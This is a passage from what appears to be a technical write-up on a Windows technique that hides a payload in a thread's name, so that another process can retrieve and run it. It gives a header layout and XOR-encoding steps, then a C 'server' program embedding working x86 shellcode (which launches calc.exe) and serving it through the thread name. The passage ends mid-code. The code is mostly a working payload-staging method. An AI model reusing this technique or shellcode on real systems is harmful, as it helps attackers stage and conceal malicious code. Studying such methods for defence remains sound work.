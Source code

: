 ```C
	DWORD32 dwChecksum;
	UINT16 u16Len;
	BYTE bKey;
} DEARG_HEADER, *PDEARG_HEADER;
#pragma pack(pop)
```

I found in tests the maximum buffer we could store in the `Buffer` structure was around `USHRT_MAX` - , likely a hard limit imposed under the hood in the kernel. So, the maximum amount we can store in this buffer is around `USHRT_MAX - sizeof(UNICODE_STRING) - sizeof(DEARG_HEADER)`. So, we need to do the following to construct our payload:

1. Set the magic to our `HEADER_MAGIC` value.
2. Calculate the CRC32 hash of the data, set our `dwChecksum` header member.
3. If the buffer contains the string terminator, loop from 0x0 to 0xFF trying to find a key that encodes our data to ensure the terminator doesn't exist. Leave this value at 0 if we don't need to encode.
4. Construct the buffer, write the header, then write the encoded buffer.

## Server
Our "server" will host the data, in a way which is described above. You can choose the main thread, or any other thread, to host the payload in `ThreadName`. For example, we can go ahead and host the data in the current thread. In this instance, we're going to host a simple bit of x86 shellcode which executes `calc.exe`:

```C
int main(int argc, char** argv)
{
	BYTE bShellcode[] = \
		"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
		"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
		"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
		"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
		"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
		"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
		"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
		"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
		"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
		"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
		"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
		"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
		"\x52\xff\xd0";

	// initialise the header
	DEARG_HEADER dHdr;
	if (!dearg_init_hdr(&dHdr))
	{
		return 0;
	}

	// attempt to serve the shellcode
	DEARG_STATUS dStatus = dearg_serve(GetCurrentThread(), DEARG_READ | DEARG_WRITE, &dHdr, bShellcode, sizeof(bShellcode));
	if (dStatus != DSERVE_OK)
	{
		switch (dStatus)
		{
		case DSERVE_ERROR_KEY:
			puts("failed to find a suitable key");
			break;

		case DSERVE_ERROR_SET:
			puts("failed to set the thread name");
			break;
```